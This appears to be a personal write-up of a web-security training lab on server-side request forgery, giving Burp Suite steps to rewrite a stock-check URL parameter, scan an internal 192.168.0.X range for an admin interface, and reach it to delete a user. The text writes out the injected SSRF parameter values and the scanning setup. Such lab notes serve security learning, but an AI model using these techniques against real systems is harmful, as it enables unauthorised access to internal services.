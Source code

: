 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514212713.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514212825.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514213602.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514213639.png)

### Basic SSRF against another back-end system
```bash

#### This lab has a stock check feature which fetches data from an internal system.

#### To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 

Go to: "View details"
Intercept is on
Click "Check stock"
Send to repeater
Note the end-point being URL-encoded (Decode the URL-encode by using Ctrl+U when selected and visa versa)
Change:

http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1

To

http%3A%2F%2F192.168.0.1%3A8080%2Fadmin

Response:

HTTP/1.1 400 Bad Request

"Missing parameter"

Send to intruder

stockApi=http%3A%2F%2F192.168.0.§1§%3A8080%2Fadmin

Go to: Payloads
Payload type: Numbers
Payload Options[Numbers]
From: 1
To: 255
Step: 1

Note that payload number "36" has a status code of "200"

Go back to repeater and change:

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fadmin

To:

stockApi=http%3A%2F%2F192.168.0.36%3A8080%2Fadmin

Response:

HTTP/1.1 200 OK

Go to this end-point in the browser
```